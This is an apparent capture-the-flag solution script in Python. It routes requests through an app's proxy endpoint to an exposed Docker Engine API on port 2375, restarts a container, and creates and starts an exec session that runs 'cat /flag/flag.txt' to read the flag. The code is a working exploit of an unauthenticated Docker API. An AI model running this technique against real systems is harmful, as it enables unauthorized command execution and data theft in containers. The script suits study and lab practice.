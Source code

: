 ```python
container_id = container_info['body']['Id']
print(container_id)

# step 1.0: start the container
payload = {
    'state': "_________",
    'api': {"8000/<game_action>": f"2375/containers/{container_id}/restart"},
    'action': 'post',
}
start_data = requests.post(url, json=payload).json()
print(start_data)
# exit()

# # step 1.1: check if it's up (optional)
# payload = {
#     'state': "_________",
#     'api': {"8000/<game_action>": f"2375/containers/{container_id}/logs?stdout=true&stderr=true"},
#     'action': 'get',
# }
# containers = requests.post(url, json=payload).json()
# print(containers)
# exit()
# container_id = containers['body'][0]['Id']
# print(container_id)

print('==========================================================')

# step 2: create an exec session to get the flag
# wished payload: {"AttachStdout": True, "AttachStderr": True, "Tty": False, "Cmd": ["cat", "/flag/flag.txt"]}
payload = {
    'state': "_________",
    'api': {"8000/<game_action>": f"2375/containers/{container_id}/exec"},
    'action': 'post',
    "AttachStdout": True, "AttachStderr": True, "Tty": False, "Cmd": ["cat", "/flag/flag.txt"]
}
exec_data = requests.post(url, json=payload).json()
# print(exec_data.json())
exec_id = exec_data['body']['Id']
# print(exec_id)
# exit()

print('==========================================================')


# step 3: start the session to actually get the flag
# wished payload: {"Detach": False, "Tty": False}
payload = {
    'state': "_________",
    'api': {"8000/<game_action>": f"2375/exec/{exec_id}/start"},
    'action': 'post',
    "Detach": False, "Tty": False
}
resp = requests.post(url, json=payload)
# flag = extract_flag(resp)  # Assuming 'response' holds the raw output
print(resp.json())  # This should print the actual flag
```
